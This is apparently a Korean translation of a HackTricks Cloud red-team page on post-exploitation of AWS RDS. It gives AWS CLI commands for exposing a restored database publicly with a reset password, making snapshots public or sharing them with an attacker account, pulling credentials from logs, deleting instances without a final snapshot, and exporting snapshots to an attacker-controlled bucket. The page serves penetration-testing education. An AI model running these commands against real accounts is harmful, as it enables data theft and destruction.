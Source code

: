 # AWS - RDS Post Exploitation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## RDS

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

공격자가 충분한 권한을 가지고 있다면, DB의 스냅샷을 생성한 다음 스냅샷에서 공개적으로 접근 가능한 DB를 만들어 **DB를 공개적으로 접근 가능**하게 할 수 있습니다.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

이러한 권한을 가진 공격자는 **DB 스냅샷을 생성**하고 이를 **공개적으로 사용 가능**하게 만들 수 있습니다. 그런 다음, 그는 자신의 계정에서 해당 스냅샷으로부터 DB를 생성할 수 있습니다.

만약 공격자가 **`rds:CreateDBSnapshot`** 권한을 가지고 있지 않더라도, 그는 여전히 **다른** 생성된 스냅샷을 **공개**로 만들 수 있습니다.

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` 권한을 가진 공격자는 RDS 인스턴스의 로그 파일 일부를 다운로드할 수 있습니다. 민감한 데이터나 액세스 자격 증명이 실수로 기록된 경우, 공격자는 이 정보를 사용하여 권한을 상승시키거나 무단으로 작업을 수행할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**잠재적 영향**: 유출된 자격 증명을 사용하여 민감한 정보에 접근하거나 무단 조치를 취할 수 있습니다.

### `rds:DeleteDBInstance`

이 권한을 가진 공격자는 **기존 RDS 인스턴스를 DoS**할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**잠재적 영향**: 기존 RDS 인스턴스의 삭제 및 데이터 손실 가능성.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

이 권한을 가진 공격자는 RDS 인스턴스 스냅샷을 S3 버킷으로 **내보낼 수 있습니다**. 공격자가 대상 S3 버킷을 제어할 수 있다면, 내보낸 스냅샷 내의 민감한 데이터에 접근할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**잠재적인 영향**: 내보낸 스냅샷에 있는 민감한 데이터에 접근 가능합니다.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왑**](https://peass.creator-spring.com)을 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
